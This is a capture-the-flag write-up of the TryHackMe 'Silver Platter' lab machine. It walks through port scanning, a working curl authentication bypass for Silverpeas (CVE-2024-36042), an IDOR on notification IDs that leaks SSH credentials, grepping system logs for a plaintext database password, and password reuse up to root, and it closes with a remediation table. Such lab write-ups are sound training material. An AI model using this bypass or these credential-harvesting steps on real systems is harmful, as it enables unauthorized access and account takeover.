# Silver Platter — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.66.170.135 | **Attacker IP:** 192.168.131.193

## Machine info



## Summary

**Silver Platter** is a TryHackMe machine built around credential disclosure through a collaborative intranet platform rather than a traditional exploit chain. A static company website leaks a username for an internal Silverpeas installation, whose authentication can be bypassed entirely by omitting the password field from the login request. The resulting session exposes an internal messaging inbox, where altering a notification's ID parameter discloses SSH credentials for a low-privileged user. From there, hunting through readable system logs surfaces a Docker command that leaks a database password in plaintext — a password reused both for Silverpeas's own database and, ultimately, for a second system account with unrestricted sudo rights.

**Attack chain:** Static Site Recon → Silverpeas Username Leak → Authentication Bypass (CVE-2024-36042) → IDOR on Internal Notifications → SSH Credential Leak → tim → Password Reuse via Docker Logs → tyler → Root

## 1. Reconnaissance

A full TCP port scan found SSH, a static website, and an unidentified HTTP service:

```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 10.66.170.135

PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 62 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:35:c3:d1:e2:ae:8d:01:3e:f8:41:66:29:d7:9c:97 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFBvs5/BpNGrMVoZt1OUPZoZM9he9o0zuG+AAPj72c36jlsItaDLLtkJLWv4jC7eYxF0qWKsKVyB0TJ0LZk/ZdQ=
|   256 9e:c8:28:5a:76:e4:cc:7d:bf:fd:fb:31:7e:6b:bc:40 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFIOeXexcApZ445j94lprmFrw2Q/b5Nz84aVvLnX+EbB
80/tcp   open  http       syn-ack ttl 62 nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Hack Smarter Security
8080/tcp open  http-proxy syn-ack ttl 61
|_http-title: Error
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Sat, 21 Nov 2026 10:51:20 GMT
|     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|_    Connection: close
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.991%I=7%D=11/21%Time=6B0177A9%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,C9,"HTTP/1\.1\x20404\x20Not\x20Found\r\nConnection:\x20close
SF:\r\nContent-Length:\x2074\r\nContent-Type:\x20text/html\r\nDate:\x20Sat
SF:,\x2021\x20Nov\x202026\x2010:51:20\x20GMT\r\n\r\n<html><head><title>Err
SF:or</title></head><body>404\x20-\x20Not\x20Found</body></html>")%r(HTTPO
SF:ptions,C9,"HTTP/1\.1\x20404\x20Not\x20Found\r\nConnection:\x20close\r\n
SF:Content-Length:\x2074\r\nContent-Type:\x20text/html\r\nDate:\x20Sat,\x2
SF:021\x20Nov\x202026\x2010:51:20\x20GMT\r\n\r\n<html><head><title>Error</
SF:title></head><body>404\x20-\x20Not\x20Found</body></html>")%r(RTSPReque
SF:st,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nCo
SF:nnection:\x20close\r\n\r\n")%r(FourOhFourRequest,C9,"HTTP/1\.1\x20404\x
SF:20Not\x20Found\r\nConnection:\x20close\r\nContent-Length:\x2074\r\nCont
SF:ent-Type:\x20text/html\r\nDate:\x20Sat,\x2021\x20Nov\x202026\x2010:51:2
SF:0\x20GMT\r\n\r\n<html><head><title>Error</title></head><body>404\x20-\x
SF:20Not\x20Found</body></html>")%r(Socks5,42,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r(Gen
SF:ericLines,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x20
SF:0\r\nConnection:\x20close\r\n\r\n")%r(Help,42,"HTTP/1\.1\x20400\x20Bad\
SF:x20Request\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r(
SF:SSLSessionReq,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:
SF:\x200\r\nConnection:\x20close\r\n\r\n")%r(TerminalServerCookie,42,"HTTP
SF:/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nConnection:\x
SF:20close\r\n\r\n")%r(TLSSessionReq,42,"HTTP/1\.1\x20400\x20Bad\x20Reques
SF:t\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r(Kerberos,
SF:42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nConne
SF:ction:\x20close\r\n\r\n")%r(SMBProgNeg,42,"HTTP/1\.1\x20400\x20Bad\x20R
SF:equest\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r(LPDS
SF:tring,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\
SF:nConnection:\x20close\r\n\r\n")%r(LDAPSearchReq,42,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n
SF:");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 80 served a static site themed "Hack Smarter Security":



Its Contact section revealed the username of their project manager on an internal platform called Silverpeas: `scr1ptkiddy`.



A `gobuster` scan against port 8080 revealed two directories:

```
gobuster dir -u http://10.66.170.135:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php

website              (Status: 302) [Size: 0] [--> http://10.66.170.135:8080/website/]
console              (Status: 302) [Size: 0] [--> /noredirect.html]
```

`/website` returned a 403 Forbidden even with a spoofed `X-Forwarded-For` header, and `/console` redirected straight to `/noredirect.html` — both dead ends. Guessing a path based on the product name from the Contact hint led directly to `/silverpeas/defaultLogin.jsp`, exposing a Silverpeas login page:



## 2. Silverpeas Authentication Bypass — CVE-2024-36042

The JavaScript asset URLs served by the login page carried a `.631.` version suffix, hinting at Silverpeas 6.3.1. A Hydra `http-post-form` brute-force attempt against the `Login` field with `rockyou.txt` was unsuccessful — a dead end. Research into known vulnerabilities for this version turned up CVE-2024-36042, an authentication bypass affecting Silverpeas versions prior to 6.3.5 in which `AuthenticationServlet` grants a valid session for any existing `Login` as long as the `Password` parameter is omitted entirely from the request:

```
curl -i -X POST http://10.66.170.135:8080/silverpeas/AuthenticationServlet -d "Login=scr1ptkiddy&DomainId=0"
HTTP/1.1 302 Found
Set-Cookie: JSESSIONID=0EusuHeA_t0Gnnjm--CgSIMERcysUZ7RzL-poEvp.ebabc79c6d2a; path=/silverpeas; HttpOnly
Set-Cookie: defaultDomain=0; path=/; Max-Age=31536000; Expires=Sun, 21-Nov-2027 12:48:16 GMT
Set-Cookie: svpLogin=scr1ptkiddy; path=/; Max-Age=31536000; Expires=Sun, 21-Nov-2027 12:48:16 GMT
X-XSS-Protection: 1
x-ua-compatible: ie=edge
X-Frame-Options: SAMEORIGIN
Location: http://10.66.170.135:8080/silverpeas/Main//look/jsp/MainFrame.jsp
Content-Security-Policy: default-src 'self' blob: mailto:  https: spwebdav:  ws://10.66.170.135:8080 ; script-src 'self' blob: 'unsafe-inline' 'unsafe-eval'  https: spwebdav: https://apis.google.com; style-src 'self' 'unsafe-inline'  https: spwebdav: https://fonts.googleapis.com; style-src-elem 'self' blob: 'unsafe-inline' https://fonts.googleapis.com
Date: Sat, 21 Nov 2026 12:48:16 GMT
Connection: keep-alive
Access-Control-Allow-Origin: http://10.66.170.135:8080
X-Content-Type-Options: nosniff
Content-Length: 0
```

The response confirmed the bypass — a `302 Found` with a valid `JSESSIONID` cookie and a `Location` header redirecting straight to the authenticated `MainFrame.jsp`, without ever supplying a password for `scr1ptkiddy`. This session cookie was then set manually in the browser's developer tools, landing on the authenticated dashboard:



## 3. IDOR on Internal Notifications — SSH Credential Leak

The `scr1ptkiddy` inbox (My notifications) held a single message, "Game Night", sent by `Manager Manager`:



Clicking it opened a small pop-up window pointing to `/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=5`, whose address bar could not be edited. The same URL was opened instead in a regular, editable browser tab, reproducing the same message:



Changing the `ID` parameter directly in the address bar from `5` to `6` — an IDOR on the notification ID — disclosed a different, manually-sent message from `Administrateur` containing SSH credentials for a user named `tim`:



SSH access with these credentials succeeded immediately:





## 4. Privilege Escalation to tyler — Password Reuse via Docker Logs

`sudo -l` confirmed `tim` had no sudo rights, and `find / -perm -4000` turned up only the standard set of Ubuntu SUID binaries — both dead ends. A search for the word "password" was then run across `/var/log`:

```
grep -ir "password"
```

This surfaced a large amount of unrelated noise along with a SHA-512crypt hash in `installer/autoinstall-user-data`:

```
installer/autoinstall-user-data:    password: $6$uJuA1kpnd4kTFniw$/402iWwKzcYD8AMHG6bY/PXwZWOkrrVmtoO7qQpfvVLh1CHmiKUodwMGP7/awDYtrzpDHV8cNbpS1HJ6VMakN.
```

Among the results, historical entries in `auth.log.2` confirmed `tyler` as a genuine system user, including a failed attempt to install software:

```
auth.log.2:Dec 12 19:39:15 silver-platter sudo:    tyler : 3 incorrect password attempts ; TTY=tty1 ; PWD=/home/tyler ; USER=root ; COMMAND=/usr/bin/apt install nginx
```

Further down, a successful `sudo` invocation exposed a database password in plaintext through the container's command-line arguments:

```
auth.log.2:Dec 13 15:40:33 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d -e POSTGRES_PASSWORD=_Zd_zx7N823/ -v postgresql-data:/var/lib/postgresql/data postgres:12.3
```

The same password was reused minutes later as the `DB_PASSWORD` for the Silverpeas container itself, whose image tag also confirmed the version guessed earlier from the login page's JavaScript assets:

```
auth.log.2:Dec 13 15:45:57 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database silverpeas:6.3.1
```

This same password was then tried directly against `tyler`'s own OS account, succeeding immediately:

```
su tyler
Password: 
```

With a shell now open as `tyler`, `sudo -l` showed unrestricted sudo rights:

```
sudo -l
Matching Defaults entries for tyler on ip-10-66-170-135:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on ip-10-66-170-135:
    (ALL : ALL) ALL
```

## 5. Privilege Escalation to Root

With full sudo rights, a root shell was obtained directly:





## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Static company website discloses an internal username (`scr1ptkiddy`) for the Silverpeas platform | Avoid publishing internal usernames or project manager identities on public-facing pages |
| Silverpeas vulnerable to an authentication bypass (CVE-2024-36042) via a missing `Password` parameter | Upgrade Silverpeas to a patched version; reject authentication requests missing required parameters |
| Internal notification messages accessible via a sequential, unauthenticated `ID` parameter in `ReadMessage.jsp` | Enforce server-side ownership checks on notification IDs instead of relying on obscurity |
| SSH credentials for `tim` sent in plaintext through an internal messaging system | Never distribute credentials through unencrypted internal messaging; use a secrets manager |
| Database password for the `postgresql` and `silverpeas` Docker containers exposed in plaintext via `sudo` command-line arguments, logged to `auth.log.2` | Pass secrets through environment files or Docker secrets instead of command-line arguments |
| Same database password reused as `tyler`'s own OS account password | Enforce unique, independent credentials across database, application, and OS accounts |
| `tyler` granted unrestricted sudo rights (`(ALL : ALL) ALL`) | Apply least privilege; scope sudo rules to only the specific commands required |
